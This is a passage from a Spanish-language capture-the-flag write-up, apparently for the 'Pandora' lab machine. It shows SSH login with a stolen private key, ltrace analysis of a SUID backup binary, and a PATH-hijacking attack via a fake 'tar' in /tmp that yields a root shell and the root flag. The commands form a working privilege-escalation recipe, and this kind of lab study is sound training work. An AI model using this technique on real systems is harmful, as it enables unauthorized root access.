 Copiamos el contenido del archivo **`id_rsa`**, lo creamos en nuestra máquina y le asignamos los permisos adecuados.
Finalmente, ya podemos conectarnos por SSH con la clave que hemos generado.

```console
p3ntest1ng:~$ ssh -i id_rsa matt@panda.htb
...[snip]...
matt@pandora:~$ echo $TERM
xterm-256color
matt@pandora:~$ export TERM=xterm
```

Anteriormente vimos que existe un binario con permisos SUID que podemos ejecutar siendo el usuario **`matt`**, veamos qué hace.

```console
matt@pandora:~$ which ltrace
/usr/bin/ltrace
matt@pandora:~$ ltrace /usr/bin/pandora_backup
getuid()                                                       = 1000
geteuid()                                                      = 1000
setreuid(1000, 1000)                                           = 0
puts("PandoraFMS Backup Utility"PandoraFMS Backup Utility
)                                                              = 26
puts("Now attempting to backup Pandora"...Now attempting to backup PandoraFMS client
)                                                              = 43
system("tar -cvf /root/.backup/pandora-b"...tar: /root/.backup/pandora-backup.tar.gz: Cannot open: Permission denied
tar: Error is not recoverable: exiting now
 <no return ...>
--- SIGCHLD (Child exited) ---
<... system resumed> )                                         = 512
puts("Backup failed!\nCheck your permis"...Backup failed!
Check your permissions!
)                                                              = 39
+++ exited (status 1) +++
```

Por lo que vemos en este output, el binario en cuestión utiliza la herramienta **`tar`** para comprimir los archivos sobre los que trabaja.
El problema en este punto es que se hace una llamada relativa al binario **`tar`**, y podemos aprovecharnos de esto para realizar **`PATH Hijacking`**,
de forma que suplantamos el archivo al que apunta para lograr ejecutar comandos privilegiados.

```console
matt@pandora:~$ cd /tmp
matt@pandora:/tmp$ touch tar
matt@pandora:/tmp$ chmod +x tar
matt@pandora:/tmp$ which sh | xargs > tar
matt@pandora:/tmp$ cat tar
/usr/bin/sh
matt@pandora:/tmp$ echo $PATH
/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games:/snap/bin
matt@pandora:/tmp$ export PATH=/tmp:$PATH
matt@pandora:/tmp$ echo $PATH
/tmp:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games:/snap/bin
matt@pandora:/tmp$ pandora_backup
PandoraFMS Backup Utility
Now attempting to backup PandoraFMS client
# whoami
root
# bash
root@pandora:~# cat /root/root.txt
e022c509e40ddca23ad52ddde3b3c978
```
